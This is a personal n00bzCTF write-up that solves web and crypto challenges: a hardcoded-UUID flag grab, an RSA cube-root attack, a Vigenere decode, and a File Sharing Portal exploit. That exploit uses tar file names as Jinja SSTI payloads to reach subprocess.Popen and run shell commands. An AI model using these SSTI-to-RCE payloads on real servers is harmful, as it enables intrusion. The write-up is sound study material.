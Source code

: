 * * *

### CTF: **n00bzCTF**

* * *

### Challeges

- Web:
  - Passwordless
  - File Sharing Portal

- Crypto:
  - Vinegar
  - RSA

- Rev:
  - Vacation

### Web:

- Passwordless

   ![image](https://github.com/user-attachments/assets/83262de2-1574-4005-b0a7-02f9b0e05295)

- Explaining the source code:

        #!/usr/bin/env python3
      from flask import Flask, request, redirect, render_template, render_template_string
      import subprocess
      import urllib
      import uuid
      global leet
      
      app = Flask(__name__)
      flag = open('/flag.txt').read()
      leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      
      @app.route('/',methods=['GET','POST'])
      def main():
          global username
          if request.method == 'GET':
              return render_template('index.html')
          elif request.method == 'POST':
              username = request.values['username']
              if username == 'admin123':
                  return 'Stop trying to act like you are the admin!'
              uid = uuid.uuid5(leet,username) # super secure!
              return redirect(f'/{uid}')
      
      @app.route('/<uid>')
      def user_page(uid):
          if uid != str(uuid.uuid5(leet,'admin123')):
              return f'Welcome! No flag for you :('
          else:
              return flag
      
      if __name__ == '__main__':
          app.run(host='0.0.0.0', port=1337)

- The `/<uid>` route reveals the flag, one of the requirement for creating the flag's uid is the leet uid which is hardocded  and the majin vulnerability.If the uid is added to the route, it reveals the flag.

      #Leet uid
      leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      if uid != str(uuid.uuid5(leet,'admin123')):
                return f'Welcome! No flag for you :('
            else:
                return flag

- Creating the uid with python `uuid` module

        ❯ python3
      Python 3.11.7 (main, Dec  8 2023, 14:22:46) [GCC 13.2.0] on linux
      Type "help", "copyright", "credits" or "license" for more information.
      >>> import uuid
      >>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      >>> str(uuid.uuid5(leet,'admin123'))
      '3c68e6cc-15a7-59d4-823c-e7563bbb326c'
      >>> 

- Grabbing the flag with curl

         ❯ curl http://24.199.110.35:40150/3c68e6cc-15a7-59d4-823c-e7563bbb326c
      n00bz{1337-13371337-1337-133713371337-1337}


### File Sharing Portal

 ![image](https://github.com/user-attachments/assets/620d23c3-b40a-4a43-a1f0-7d7bd4b8b1e1)

### Source Code Analysis/

- The index page `/` accepts upload of only tarfiles, removes the name  and replace it with a sha256 generated hash of a random value,the server uses the `tarfile` module to extract the file,places it in a directory named after the name hash and creates an hyperlink to access the extracted files.

      elif request.method == 'POST':
            file = request.files['file']
            if file.filename[-4:] != '.tar':
                return render_template_string("<p> We only support tar files as of right now!</p>")
            name = sha256(os.urandom(16)).digest().hex()
            os.makedirs(f"./uploads/{name}", exist_ok=True)
            file.save(f"./uploads/{name}/{name}.tar")
            try:
                tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
                tar_file.extractall(path=f'./uploads/{name}/')
                return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")

- The `/view/<name` checks if all the characters are within the range `a-f0-9` and if it appears otherwise, it triggers an error.Then, it uses `os.listdir()` to list the directory of the extracted tar file which is stored in a `list`.Then, it uses this `f'<a href="/read/{name}/{i}">{i}</a>'` line to create an hyperlink to each extracted files. The server uses the function `render_template_string()` to render the html code.Although, the function  is vulnerable to SSTI injection which allows us execute python code on the server. The code executes the name of the extracted file because the server doesn't convert it into a hash.


       if not all([i in "abcdef1234567890" for i in name]):
            return render_template_string("<p>Error!</p>")
            #print(os.popen(f'ls ./uploads/{name}').read())
                #print(name)
        files = os.listdir(f"./uploads/{name}")
        out = '<h1>Files</h1><br>'
        files.remove(f'{name}.tar')  # Remove the tar file from the list
        for i in files:
            out += f'<a href="/read/{name}/{i}">{i}</a>'
           # except:
        return render_template_string(out)

### Proof of concept writing 

- I wrote a python script that stores the payload with  `input()` and creates a file with the payload's name.Then, a tarfile named `zip.tar` is created with module `tarfile` and the payload named file is added to it. This code works in a loop.

- Code:
      
      #! /usr/bin/env python3
      import tarfile
      
      def exploit(string: str):
          file = open(string,"w")
          file.close()
          #tarfile+ssti exploit
          tarfilez = tarfile.open("zip.tar","w")
          tarfilez.add(string)
          tarfilez.close()
          print("[+]zip.tar created")
      
      def main():
          while True:
                 ssti_string = input("[+]Enter ssti string: ")
                 exploit(ssti_string)
      
      if __name__ == "__main__":
         main()

- Creating the `tarfile`

  ![image](https://github.com/user-attachments/assets/42725d11-9e19-4c1a-bb82-3220e3a0406c)

- Uploading the tar file shows it works, here is the result of `{{config}}`

  ![image](https://github.com/user-attachments/assets/2aeca84b-8d71-4392-a868-e2f5382fef82)

### RCE

- I got command execution with this payload `{{"".__class__.__base__.__subclasses__()[351]}}`, now we can execute shell commands with `class subprocess.Popen`.

   ![image](https://github.com/user-attachments/assets/889412d1-1e9f-41f9-9f3f-07763f68100f)

### Reading the flag

- I read the flag with this payload `{{"".__class__.__base__.__subclasses__()[351]("cat flag_15b726a24e04cc6413cb15b9d91e548948dac073b85c33f82495b10e9efe2c6e.txt",shell=True,stdout=-1).communicate()}}`

  ![image](https://github.com/user-attachments/assets/68a287da-fea8-4b00-bd10-3053431c05f1)

- Flag with curl:

        ❯ curl http://f94014e3-dcf1-4cf2-8cc3-3a72ec904122.challs.n00bzunit3d.xyz:8080/view/8b5973174657e070c52f6d9aa82d0f3eaeab9ccca427dda8595dfeba0c6d06b0
      <h1>Files</h1><br><a href="/read/8b5973174657e070c52f6d9aa82d0f3eaeab9ccca427dda8595dfeba0c6d06b0/(b&#39;n00bz{n3v3r_7rus71ng_t4r_4g41n!_af872df9316a}\n&#39;, None)">(b&#39;n00bz{n3v3r_7rus71ng_t4r_4g41n!_af872df9316a}\n&#39;, None)</a>% 
      
      
### CRYPTO:

### Vinegar:

![image](https://github.com/user-attachments/assets/2716cfd9-3f76-4a09-a9af-ff31c1c309fc)

### Cipher text :
  
     Encrypted flag: nmivrxbiaatjvvbcjsf
     key: secretkey

- It is an example of Vigenere cipher, I decoded it with `dcode.fr`

![image](https://github.com/user-attachments/assets/70ccc674-52a7-4493-8bfa-b00077dd2ffc)


### RSA

![image](https://github.com/user-attachments/assets/fdae0086-7084-4336-8691-f3a0e10d63f2)

- Based on the value of e which is 3, the rsa is vulnerable to the `cube root attack`, we just have to get the cube root of c and convert it to bytes.

- Code:

        #! /usr/bin/env python3
        import libnum
        from Crypto.Util.number import *
        e = 3
        n = 135112325288715136727832177735512070625083219670480717841817583343851445454356579794543601926517886432778754079508684454122465776544049537510760149616899986522216930847357907483054348419798542025184280105958211364798924985051999921354369017984140216806642244876998054533895072842602131552047667500910960834243
        c = 13037717184940851534440408074902031173938827302834506159512256813794613267487160058287930781080450199371859916605839773796744179698270340378901298046506802163106509143441799583051647999737073025726173300915916758770511497524353491642840238968166849681827669150543335788616727518429916536945395813
        flag = long_to_bytes(libnum.nroot(c,3)).decode()
        print(flag)

- Output

        ❯ ./rsa.py
      n00bz{crypt0_1s_1nc0mpl3t3_w1th0ut_rs4!!}

  







  
 
